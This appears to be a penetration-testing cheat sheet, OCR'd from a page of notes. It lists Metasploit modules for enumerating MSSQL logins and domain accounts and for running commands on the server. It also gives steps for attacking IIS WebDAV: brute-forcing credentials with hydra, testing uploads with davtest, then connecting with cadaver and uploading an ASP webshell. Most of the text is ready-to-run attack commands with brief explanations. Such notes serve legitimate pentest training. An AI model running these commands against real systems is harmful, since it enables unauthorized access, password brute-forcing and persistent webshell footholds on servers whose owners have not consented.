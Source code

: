 > Running MSSQL enumeration module to find all possible information.

```msfconsole
use auxiliary/admin/mssql/mssql_enum_sql_logins 
set RHOSTS <ip-address> 
exploit
```

> Extract all MSSQL users.

```msfconsole
use auxiliary/admin/mssql/mssql_exec 
set RHOSTS <ip-address>
set CMD whoami 
exploit
```

> Execute a command using `mssql_exec` module.

```msfconsole
use auxiliary/admin/mssql/mssql_enum_domain_accounts 
set RHOSTS <ip-address> 
exploit
```

> This module dumps the information such as Windows domain users, groups, and computer accounts

#### Exploiting Microsoft IIA WebDAV:

```Shell
hydra -L /usr/share/metasploit/common_user.txt -P /usr/share/metasploit/common_passwords.txt <ip-address> http-get /webdav/
```

> Hydra can be used to brute force `webdav` directory if the authentication is enabled.

```Shell
davtest -url http://<ip-address>/webdav
```

> Can be used to test if `webdav` is present or is accessible without authentication. If it isn't then it will show an error.

```Shell
davtest -auth <user-name>:<password> -url http://<ip-address>/webdav
```

> This will perform a check and will tell what type of files can be uploaded or executed over the server.

```
cadaver http://<ip-address>/webdav
```

> Cadaver can be used to upload files on the server and when you will type this command you will be than asked for a username and a password. After the correct creds. you will get the access to a pseudo shell through which you will be able to interact with the server. 

```Shell
put /usr/share/webshells/asp/webshell.asp
```
